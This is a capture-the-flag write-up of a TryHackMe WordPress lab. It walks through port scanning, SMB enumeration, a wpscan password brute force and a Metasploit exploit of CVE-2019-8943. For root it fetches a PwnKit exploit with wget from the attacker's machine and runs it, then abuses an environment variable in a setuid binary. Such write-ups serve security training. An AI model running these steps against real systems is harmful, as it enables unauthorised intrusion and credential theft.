# Blog

## General Information

<h3>Difficulty:  </h3>

<h3> Operating system: Linux</h3> 

<h3> Exploited vulnerability: CVE 2019-8943 and in privilege escalation with **pkexec** y **checker**</h3>

<h3> Date of resolution: 29/06/2025 </h3>

<h3>Link Virtual Machine: <a href="https://tryhackme.com/room/blog" target="_blank">Blog</a></h3>

### *Read this document a espagnol* <a href="blog.md">Blog</a>

## Recognition

TryHackme provides us with the target machine's IP address **target_ip**

I'm going to set the IP address of the target machine in the **/etc/hosts** file. I'm going to call it **blog.thm**

<p align="center"> 

</p>

**Ping**

Depending on the result, we can determine whether it's a Linux or Windows machine, for example:

```
ping -c 1 blog.thm 
```

<p align="center"> 

</p>

**If the ttl=63 is Linux**

### Scanning for open ports

#### TCP port scanning

The command I use with nmap is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service     | Version                         |
| --------- | ----------- | ------------------------------- |
| 22        | ssh         | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80        | http        | httpd 2.4.29 ((Ubuntu))         |
| 139       | netbios-ssn | Samba smbd 3.X - 4.X            |
| 445       | netbios-ssn | Samba smbd 4.7.6-Ubuntu         |

</div>

With nmap we have discovered two paths, which we will test later **/robots.txt/ and /wp-admin/**

#### UDP port scanning

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn <Ip de la victima>
```

<p align="center"> 

</p>

<div align="center">

| Open Port | SERVICE    |
| --------- | ---------- |
| 137       | netbios-ns |

</div>

## Exploration

### Nmap

Port 80 is open, investigating:

```
http://blog.thm/
```

<p align="center"> 

</p>

<p align="center"> 

</p>

Here he tells us that he is using Wordpress to create his blog

<p align="center"> 

</p>

Another way to access the Wordpress control panel

```
http://blog.thm/robots.txt
```

<p align="center"> 

</p>

```
http://blog.thm/wp-admin
```

<p align="center"> 

</p>

We can guess the username, **Billy**, from the post at the top of the website.
But no luck, so further investigation was needed.

### Web Fuzzing

```
gobuster dir -u http://blog.thm/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

<p align="center"> 

</p>

```
http://blog.thm/feed/rdf/
```

<p align="center"> 

</p>

I find the version of WordPress that is v5.0.

Then, we already know the other **paths** thanks to the **nmap** scan.

### Samba

#### Rpcclient

```
rpcclient -U "" -N blog.thm  
```

<p align="center"> 

</p>

#### Smbmap

**All of this is done because ports 139 and 445 are open**

Tool location <a href="https://github.com/ShawnDEvans/smbmap" target="_blank">smbmap</a>

To use it you must have **pip3** installed

```
pip3 --version
```

<p align="center"> 

</p>

You should also have a virtual Python environment created, but if you don't know how, I'll show you how to do it:

```
sudo apt install python3.13-venv
python3 -m venv venv
source venv/bin/activate
```

<p align="center"> 

</p>

**Command to install smbmap once the Python virtual environment is activated**

```
pip install smbmap
smbmap -H <IpObjetivo>
```

In my case, the command would be this:

```
smbmap -H blog.thm
```

<p align="center"> 

</p>

We use **smblient**

```
smbclient //blog.thm/BILLYSMB
```

<p align="center"> 

</p>

I download the three files with the following commands

```
get Alice-White-Rabbit.jpg
get tswift.mp4
get check-this.png
```

<p align="center"> 

</p>

I put it in a folder and investigate it with a **stenography** tool.

```
steghide extract -sf Alice-White-Rabbit.jpg
```

<p align="center"> 

</p>

``` 
cat rabbit_hole.txt
```

<p align="center"> 

</p>

Then the other files take me to some music from the 80s, which we practically got **nothing**

### WordPress

#### Wpscan

Something I forgot to do from the start was use this tool to find out which user owns WordPress. It was a bit silly of me not to use it before. **First, we have to update it.**

```
wpscan --update
```

<p align="center"> 

</p>

```
wpscan --url http://blog.thm --enumerate u,vp
```

The report is quite extensive, but for now we will only focus on what **users discover about us**

<p align="center"> 

</p>

The users listed are **kwheel** and **bjoel**

We brute-forced it with wpscan.

```
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel
```

<p align="center"> 

</p>

With the user **kwheel**, it takes about 8 minutes to get the password.
The password is **cutiepie1**

The report also tells me that WordPress is at version 5.0. I searched online.

```
exploit linux wordpress 5.0 metasploit
```

<p align="center"> 

</p>

Within <a href="https://www.exploit-db.com/exploits/49512" target="_blank">exploit-db</a> The CVEs appear, so I try to search for them in Metasploit.

<p align="center"> 

</p>

in metasploit 

```
search 2019-8943
search 2019-8942
```

<p align="center"> 

</p>

Therefore, we will carry out the attack by **metasploit**

## Explotación 

I use metasploit

```
use 0
show options
```

<p align="center"> 

</p>

```
set RHOSTS 10.10.191.75
set USERNAME kwheel
set PASSWORD cutiepie1
set LHOST 10.8.139.36
show options
```

<p align="center"> 

</p>

```
run
```

<p align="center"> 

</p>

I go to the user folder

```
cd /home/bjoel
```

<p align="center"> 

</p>

but...

```
cat user.txt
```

<p align="center"> 

</p>

Let him keep looking... so I investigate and I find something suspicious, first we go to...

```
cd /media
ls
```

<p align="center"> 

</p>

**Interestingly, this folder can only be accessed with root permission**

So, I'm getting down to work on privilege escalation.

## Post-Exploitation

### We need to get a more stable connection

As an alternative to the tty, we will use this command:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

**Also works with metasploit**

<p align="center"> 

</p>

### Privilege Escalation

#### First command:
```
sudo -l
```

**It didn't work**

#### Second command:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Upon further investigation, there are two ways to escalate privileges: using the **pkexec** and **checker** modules, although the latter is more complicated to understand (it wasn't that difficult in the end). For now, we'll focus on the former.

### First Subsequent Exploitation

Whenever we have the opportunity to escalate privileges with **pkexec** we google the following:

```
github pkexec privilege escalation
```

<p align="center"> 

</p>

To download with **wget** we would only need to go <a href="https://github.com/NxPnch/pkexec-exploit" target="_blank">here</a> and we copy the url

<p align="center"> 

</p>

```
wget https://raw.githubusercontent.com/NxPnch/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```

Then I change the name to make it easier

<p align="center"> 

</p>

I share the file with this command

```
python -m http.server 80
```

Then, located in the **/tmp** folder, I get the file with the following command:

```
wget http://ipMaquinaAtacante/exploit.py
```

<p align="center"> 

</p>

Then, we give it execution permission and execute

```
chmod +x exploit.py
./exploit.py
n
```

<p align="center"> 

</p>


### Second subsequent exploitation

We are located where the **checker** module is

```
cd /usr/sbin
ltrace checker
```

**ltrace** is used to trace the calls to dynamic library functions that a program makes while it is running, that is, it shows you in real time which of these functions are being called, with what arguments and what they return.

<p align="center"> 

</p>

```
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

This code means that the program is looking for an environment variable called **admin**; since it doesn't exist (nil), it prints **"not admin"**.

So the idea is to export this environment variable, as follows:

```
export admin=1 
```

(it can be 1 as if you want to put hello or whatever). So the important thing is not the value, but rather, **that the variable `admin` exists**.

<p align="center"> 

</p>


```
getenv("admin")                                  = "1"
setuid(0)                                        = -1
```

...then `getenv("admin")` returns `"1"`, which means it now exists and has a value.

Now we run the **checker** binary.

```
./checker
```

<p align="center"> 

</p>

All this happens because the **checker** binary belongs to root, you get a shell as root

------------------------------------------------------------------------

To get the first red flag we go to **/media/usb**

<p align="center"> 

</p>

Then the second red flag

<p align="center"> 

</p>

**Machine finished**

## Conclusion

This machine reminded me of the importance of performing proper port enumeration when running a scan with **Nmap**, since depending on the detected services, we can apply different reconnaissance and exploitation techniques.

For example, if ports **139** and **445** are open, and are related to **Samba**, it is essential to use tools like **rpcclient** and **smbmap** to enumerate shared resources, users, or potential unauthenticated access. On the other hand, if the target uses **WordPress**, tools like **wpscan** become essential to detect users and known vulnerabilities. Additionally, **wpscan** allows for brute-force attacks to obtain valid credentials if properly configured.

During the exploitation phase, I exploited the **CVE-2019-8943** vulnerability, which affected one of the plugins installed in WordPress, allowing arbitrary code execution and obtaining a shell on the target system with **metasploit**.

To escalate privileges and access the first flag (which was protected by root permissions), I identified two possible vectors: through the `pkexec` binary and through a custom binary called `checker`.

Whenever `pkexec` is present, it's worth checking whether it's vulnerable to known exploits such as **CVE-2021-4034** (PwnKit). As for `checker`, I used the `ltrace` tool to analyze function calls and discovered that the program depended on an environment variable called `admin`. This variable wasn't defined by default, but exporting it (for example, with `export admin=1`) and running `checker` gives root access.

Once privileges were escalated, it was possible to access both flags without further complications.